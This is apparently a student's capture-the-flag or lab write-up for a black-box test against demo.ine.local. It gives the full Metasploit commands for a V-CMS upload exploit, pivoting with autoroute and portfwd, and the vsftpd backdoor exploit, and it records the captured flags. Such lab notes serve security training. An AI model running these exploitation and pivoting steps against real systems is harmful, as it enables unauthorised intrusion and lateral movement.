








# BLACK BOX TESTING 1

## GIVEN   
**MY IP ADDRESS**: 192.101.56.2

## PROCEDURE

### RECON

```
nmap -sV --script vuln -p- demo.ine.local
```



**OPEN PORTS**:<br>
80 http (nginx 1.14.0 Web Server),<br>
3306 mysql,<br>

Port 80 is hosting V-CMS v1.0<br>

Google "vcms 1.0 vuln"<br>



**VULN**: V-CMS PHP File Upload and Execute

### EXPLOIT

```
searchsploit vcms
msfconsole
search vcms
use exploit/linux/http/vcms_upload
set RHOSTS demo.ine.local
set TARGETURI /
set LHOST 192.101.56.2
exploit
```



### GET FLAG 1

```
search -f *flag*
cat /root/flag.txt
```



**FLAG 1**: 4f96a3e848d233d5af337c440e50fe3d

### PIVOT

```
shell
ifconfig
```



Device connected to 2 networks

eth0: 192.101.56.3
**eth1**: 192.4.78.2

Add route to new network
-s IP/CIDR
```
run autoroute -s 192.4.78.0/24
background
route print
use auxiliary/scanner/portscan/tcp
set RHOSTS 192.4.78.0/24
run
```



**IP (PORTS)**:<br>
192.4.78.1 (22),<br>
192.4.78.2 (80, 3306),<br>
**192.4.78.3 (21, 22)**<br>

This will associate port 1234 on the hacked machine as port 21 on the new machine<br>
-l LISTEN_PORT<br>
-p TARGET_PORT<br>
-r TARGET_IP
```
sessions -i 1
portfwd add -l 1234 -p 21 -r 192.4.78.3
background
nmap -A --script vuln -p 1234 localhost
```



**PORT 21**: vsftpd 2.0.8

## EXPLOIT

```
search vsftpd
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 192.4.78.3
exploit #Didn't work the first time
exploit
find / -iname *flag*
```



**FLAG 2**: 58c7c29a8ab5e7c4c06256b954947f9a